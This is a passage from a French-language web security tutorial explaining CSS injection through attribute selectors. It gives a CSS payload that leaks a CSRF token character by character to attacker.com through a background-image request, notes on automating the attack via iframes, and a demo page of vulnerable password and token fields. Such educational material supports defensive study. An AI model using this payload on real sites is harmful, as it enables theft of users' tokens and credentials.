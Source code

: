 {% code overflow="wrap" %}
```html
<style>
  form:has(input[name=csrf-token][value^=a]) {
    background-image:url(https://attacker.com/?leak=a);
  }
</style>
```
{% endcode %}

### Automatisation de l'attaque

Un script d'automatisation exploitant l'injection CSS afin de récupérer une valeur d'un attribut existe déjà ici : [https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e). Son utilisation nécessite que la victime accède à la page malicieuse et que l'application vulnérable ciblée soit iframable (entêtes [X-Frame-Options](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/X-Frame-Options) et [frame-ancestors](https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors)). Toutefois, ce PoC ne possède pas la partie back-end. Il faudra donc le développer, mais il reste toutefois assez simple. De plus, étant donné qu'une seule requête est effectuée par position de caractère, il est possible que l'iframing résulte en une erreur HTTP `414 URI Too Long` et que l'attaque échoue.

Ci-dessous, plusieurs PoC tentant de résoudre ces problèmes.

#### PoC - Récupération de la valeur d'un attribut d'un élément HTML via les sélecteurs d'attribut CSS

Un PoC est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/les-injections-css-attribute-selector/attribute-selectors-iframe).

{% code overflow="wrap" %}
```html
<h1>Récupération de la valeur d'un attribut d'un élément HTML via les sélecteurs d'attribut CSS</h1>

<h2>PoC #1 - Champ de type password</h2>
<form method="POST" action="">
    <input type="password" name="password" value="qwerty">
    <input type="submit" name="currentPassword" value="Submit">
</form>
        
<h2>PoC #2 - Champ de type hidden</h2>
<form action="" method="POST">
    <input type="password" name="newPassword" placeholder="New Password">
    <input type="password" name="confirmNewPassword" placeholder="Confirm New Password">
    <input type="hidden" name="csrf-token" value="a5ccef6a-1f00-4a02-b16b-e4e9e517b223">
    <input type="submit" name="changePassword" value="Continue">
</form>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
